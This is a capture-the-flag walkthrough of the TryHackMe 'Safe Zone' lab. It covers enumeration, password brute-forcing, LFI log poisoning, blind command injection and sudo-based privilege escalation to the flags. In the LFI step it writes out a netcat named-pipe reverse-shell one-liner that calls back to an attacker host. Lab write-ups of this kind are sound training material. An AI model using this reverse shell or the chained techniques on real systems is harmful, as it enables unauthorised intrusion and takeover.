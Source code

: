 ```yaml
---
title: Safe Zone
layout: post
author: Bit Criminals Team
date: 2021-05-10 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/safezone
---
```



This was an interesting and thought-provoking room!

So,let's start!

# Enumeration
 Using nmap I founded 2 open ports : 22 (for ssh) and 80 (for http service)

 Command used: 
> nmap -sS -Pn -T4 -vvv <ip>

![nmap](https://user-images.githubusercontent.com/78094309/117653814-834ba580-b1b2-11eb-82a8-2824c38ebb7b.png)


Now, looking after port 80, I used gobuster and thus got the following directories:
![gobuster](https://user-images.githubusercontent.com/78094309/117653895-a24a3780-b1b2-11eb-8017-20bf507ef83c.png)

On checking index.php, Got a login form:

![loging_page](https://user-images.githubusercontent.com/78094309/117654823-ea1d8e80-b1b3-11eb-9eb7-978b8ba0a6e1.png)


On checking further directories and enumeration i got the hint for the password:
![~files](https://user-images.githubusercontent.com/78094309/117655056-32d54780-b1b4-11eb-99da-771cb0f581c2.png)

So, I made a script and thus found out the password:

![script](https://user-images.githubusercontent.com/78094309/117655127-4bddf880-b1b4-11eb-97c2-072ad49f3ed2.png)

> password: admin44admin

Now,checking the source-code ,a hint was given : use *page* as GET parameter

![webpage-get](https://user-images.githubusercontent.com/78094309/117655350-919ac100-b1b4-11eb-93a0-c857be2f174b.png)


So, I tried opening a shell using the following command (passed as get parameter):

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f

Using any online URL encoder tool,I encoded this string and passed as GET parameter and thus was able to obtain a shell.
![nc_alternative](https://user-images.githubusercontent.com/78094309/117655622-f0f8d100-b1b4-11eb-99e7-b5a0e492f2b4.png)

Used burp for passing GET request:
![burp](https://user-images.githubusercontent.com/78094309/117655661-ff46ed00-b1b4-11eb-92dc-9f568f0d7595.png)

for reference, you can read the concept here: https://www.hackingarticles.in/apache-log-poisoning-through-lfi/

![shell](https://user-images.githubusercontent.com/78094309/117655795-28677d80-b1b5-11eb-9333-fbe54dcb96f9.png)



After getting the shell lets convert it into a stable tty shell by using following commands:

```py
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
![](safezone1.png)

I searched for the user flag but there were only previous hints that we got. But then we got the password hash for the user files and after cracking it using john we came to know that its password is `magic`
![](safezone2.png)

So now we can login as files through ssh!
After finding a bit i used following command to check if there is possibility for port forwading and YES there were two ports running locally...
```py
ss -tulwn
```
![](safezone3.png)

I tried 3336 port but there was nothing but port 8000 gave us positive response!
![](safezone4.png)

![](safezone5.png)

So we ran gobuster on it and found a index.html directory which was a login page.
![](safezone6.png)

![](safezone7.png)

And its source contained a login.js directory which gave us the credentials.
So we succesfully logged in....

![](safezone8.png)

This allows us to send a message to Yash,an existing user on the system,and we find out it is susceptible to blind command injection!
So we ssh into the machine once again using "magic" as the password,create a reverse shell in the /tmp directory and allot it universal permissions.

After that we turn on the listener at the specified port and in the webpage enter the message /tmp/reverseshell(the name of our reverse-shell) and send it.

![](/images/MaskdMafia/safezone-1.png)

And we are logged in as Yash!
Moving to /home/yash ,we see that it has a flag.txt there which is our user flag.

![](/images/MaskdMafia/safezone-2.png)

After this we execute the command "sudo -l" to see which commands the user Yash is capable of executing the machine.
After executing bk.py we see that it copies files from its source to a destination specified ,so we try to copy the root flag from the root directory. And just like this, we reveal the root flag.

![](/images/MaskdMafia/safezone-3.png)
